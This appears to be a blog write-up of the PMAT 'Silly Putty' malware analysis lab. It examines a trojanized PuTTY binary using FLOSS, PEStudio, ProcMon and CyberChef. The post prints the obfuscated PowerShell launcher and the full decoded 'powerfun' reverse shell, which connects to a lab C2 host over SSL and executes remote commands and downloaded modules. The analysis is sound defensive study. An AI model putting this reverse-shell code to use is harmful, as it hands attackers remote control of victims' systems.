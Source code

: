 ```yaml
---
layout: post
title: 3 PMAT Silly Putty
category : [Reverse, PMAT]
tags: reverse
---
```


In this lab, we'll analyze a malicious version of PuTTY that contains embedded PowerShell code designed to establish a reverse shell connection. This analysis demonstrates how legitimate software can be weaponized to deliver malicious payloads.

## Basic Static Analysis

Let's start by examining the binary without executing it to understand its structure and identify potential indicators.

### FLOSS Analysis

We begin by analyzing the binary with FLOSS, setting a minimum string length of 8 characters to filter out noise:

```bash
FLOSS.exe -n 8 putty.exe > flossout.txt
```

This helps us identify meaningful strings that could reveal the malware's functionality.

### PEStudio Analysis

PEStudio provides valuable information about the binary's characteristics:

- **SHA256**: 0C82E654C09C8FD9FDF4899718EFA37670974C9EEC5A8FC18A167F93CEA6EE83
- **File Type**: PE executable
- **Architecture**: 32-bit
- **Compiler**: Microsoft Visual C++

![PEStudio Analysis](/assets/images/sillyputty/sillyputty-pestudio1.png)

### VirusTotal Analysis

VirusTotal analysis reveals the malware's detection status and community assessment:

![VirusTotal Results](/assets/images/sillyputty/sillyputty-vt.png)

## Basic Dynamic Analysis

Now we'll examine the malware's behavior in a controlled environment using various monitoring tools.

### Analysis Setup

We use a combination of tools to monitor the malware's activities:
- **Inetsim**: Simulates network services
- **System Informer**: Monitors process creation and relationships
- **ProcMon**: Tracks system calls and registry/file operations
- **TCPView**: Monitors network connections

### Process Monitor Analysis

From ProcMon analysis, we discover that the malware executes a PowerShell command:

```powershell
powershell.exe -nop -w hidden -noni -ep bypass "&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('...'))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))"
```

*Note: The long Base64 string has been abbreviated for readability*

### Payload Analysis

Using CyberChef to decode the Base64 and decompress the Gzip data, we extract the actual PowerShell payload:

![CyberChef Analysis](/assets/images/sillyputty/sillyputty-cyberchef1.png)

The decoded payload reveals a sophisticated PowerShell reverse shell:

```powershell
# Powerfun - Written by Ben Turner & Dave Hardy

function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}

function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}

powerfun -Command reverse -Sslcon true
```

### Network Analysis

Using netcat to monitor the connection, we observe the reverse shell behavior:

![Netcat Monitoring](/assets/images/sillyputty/sillyputty-nc1.png)

The strange characters in the output indicate SSL/TLS encryption is being used.

## Payload Analysis

### Key Components

1. **Get-Webclient Function**: Creates a WebClient object configured to use default credentials and proxy settings, enabling download of additional modules.

2. **Powerfun Function**: The main reverse shell implementation with three parameters:
   - `Command`: Determines connection mode ("bind" or "reverse")
   - `Sslcon`: Enables SSL/TLS encryption
   - `Download`: Controls whether to download and execute additional modules

3. **Connection Establishment**: Establishes a TCP connection to "bonus2.corporatebonusapplication.local" on port 8443 in reverse shell mode with SSL encryption.

4. **Interactive Session**: Creates a persistent PowerShell session that:
   - Displays a fake PowerShell banner
   - Maintains persistent connection
   - Executes commands received from the remote server
   - Returns command output and errors back to the attacker
   - Supports downloading and executing additional PowerShell modules

## Summary

This analysis revealed a sophisticated malware sample that:

- **Weaponizes Legitimate Software**: Uses a modified version of PuTTY to deliver malicious payloads
- **Employs Obfuscation**: Encodes the PowerShell payload using Base64 and Gzip compression
- **Establishes Reverse Shell**: Creates a persistent, encrypted connection to a command and control server
- **Uses SSL Encryption**: Implements SSL/TLS to evade network detection
- **Supports Module Loading**: Can download and execute additional malicious modules

This demonstrates how attackers can leverage legitimate software to bypass security controls and establish persistent access to compromised systems.